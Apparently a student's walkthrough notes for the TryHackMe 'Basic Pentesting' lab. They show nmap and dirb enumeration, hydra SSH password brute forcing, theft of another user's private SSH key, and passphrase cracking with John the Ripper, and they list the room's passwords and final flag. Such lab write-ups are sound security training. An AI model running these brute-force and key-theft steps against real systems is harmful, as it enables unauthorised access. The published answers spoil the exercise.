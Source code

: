 

# Basic Pentesting


- `https://tryhackme.com/room/basicpentestingjt`
- IP: `x.x.x.x`
- topics: brute forcing, hash cracking, service enumeration & Linux enumeration

Find the services exposed by the machine

- hint: use an nmap scan to look for the open ports
- `nmap -sS x.x.x.x`
- `nmap -sC -sV -oN <IP>`


```
22/tcp    ssh
80/tcp    http
139/tcp   netbios
445/tcp   microsoft-ds
8009/tcp  ajp13
8080/tcp  http-proxy
```

- go to `http://x.x.x.x:80` 'undergoing maintenance', check source code, try `/dev` and see `Apache/2.4.18 Ubuntu Server`


What is the name of the hidden directory on the web server(enter name without /)?

- hint: use `dirsearch`/`dirbuster` to find the hidden directories.
- AttackBox has `dirb`  which finds hidden directories and files (attack vectors), wordlists `/usr/share/dirb/wordlists/common.txt`
- `dirb http://x.x.x.x /usr/share/wordlists/common.txt` 


```
http://x.x.x.x/development
http://x.x.x.x/index.html
http://x.x.x.x/server-status
```

- `development`

- go to the `http://x.x.x.x/development` and see a `/dev.txt` and `j.txt`
- `j.txt` mentions `/etc/shadow`
- `dev.txt` mentions SMB and Apache, users J and K
  
User brute-forcing to find the username & password

What is the username? 
- hint: what about using SMB to find a username?
- SMB is Windows `445/tcp   microsoft-ds`


from video: 
- `jan`
- `kay`

  
What is the password?
- What about using a tool like hydra to bruteforce?
- `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://x.x.x.x`
- `armando`
  
What service do you use to access the server(answer in abbreviation in all caps)?
- hint: what command line utility is used for remote access?
- SSH

  
What is the name of the other user you found(all lower case)?
- `kay`

If you have found another user, what can you do with this information?
- hint: apart from a password, how else can a user access a machine?
- `ssh jan@x.x.x.x` : `armando`
- `ls -la` shows `.lesshst` denied permissions
- `kay` has file but all denied permissions


- `linpeas` 
- `/home/kay/.ssh/id_rsa`
- `cat id_rsa`
- `nano kay_id_rsa` 
- paste in `chmod 600` `ssh -i kay_id_rsa kay@<IP>` 
- need passphrase, use john the ripper


What is the final password you obtain?

- from video `beeswax`
- `ssh -i kay_id_rsa kay@<IP> `  `beeswax`
- `cat pass.bak`
- #flag `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`












